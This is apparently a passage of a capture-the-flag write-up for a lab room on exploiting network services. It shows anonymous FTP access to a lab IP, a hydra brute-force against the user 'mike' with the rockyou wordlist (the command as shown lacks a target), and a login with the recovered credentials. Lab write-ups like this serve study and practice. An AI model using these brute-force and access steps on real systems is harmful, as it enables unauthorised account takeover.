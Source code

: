### What do we think a possible username could be?

```
lftp anonymous@10.10.66.149:/> cat PUBLIC_NOTICE.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-09 08-50-41.png>)

### What is the password for the user "mike"?

```
hydra -l mike -P /usr/share/wordlists/rockyou.txt -f -t64
```

![](<../../.gitbook/assets/Screenshot from 2020-09-09 08-56-51.png>)

### What is ftp.txt?

```
lftp -u mike,password 10.10.66.149
lftp mike@10.10.66.149:~> cat ftp.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-09 09-00-50.png>)

## :link: Support Material

{% embed url="https://medium.com/@gregIT/exploiting-simple-network-services-in-ctfs-ec8735be5eef" %}

{% embed url="https://attack.mitre.org/techniques/T1210/" %}

{% embed url="https://www.nextgov.com/cybersecurity/2019/10/nsa-warns-vulnerabilities-multiple-vpn-services/160456/" %}
